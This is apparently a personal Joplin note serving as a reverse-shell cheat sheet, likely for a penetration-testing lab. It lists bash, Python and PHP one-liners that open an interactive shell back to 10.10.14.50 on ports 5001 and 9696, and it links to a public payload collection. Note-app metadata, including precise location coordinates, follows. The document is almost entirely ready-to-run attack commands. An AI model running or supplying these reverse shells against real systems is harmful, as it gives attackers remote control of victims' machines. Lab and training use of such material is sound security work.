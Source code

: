 bash/python

> ```
> bash -i >& /dev/tcp/10.10.14.50/5001 0>&1
> /bin/bash -c "bash -i >& /dev/tcp/10.10.14.50/5001 0>&1"
> 
> ```

[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Reverse Shell Cheatsheet.md#bash-tcp](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp)

## Python

> python -c 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect(("10.10.14.50",9696));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(\["/bin/sh","-i"\])'

## PHP

For the interactive shell usage

> php -r '$sock=fsockopen("10.10.14.50",5001);exec("/bin/sh -i &lt;&3 &gt;&3 2>&3");'

id: 5c960ae0679f45c084d870a7e8bd7850
parent_id: b8fe3751a1b24ee7ad3f067e0a5bfdcd
created_time: 2022-05-17T17:16:25.566Z
updated_time: 2022-05-18T02:23:41.286Z
is_conflict: 0
latitude: 1.28795004
longitude: 103.85178375
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-05-17T17:16:25.566Z
user_updated_time: 2022-05-18T02:23:41.286Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1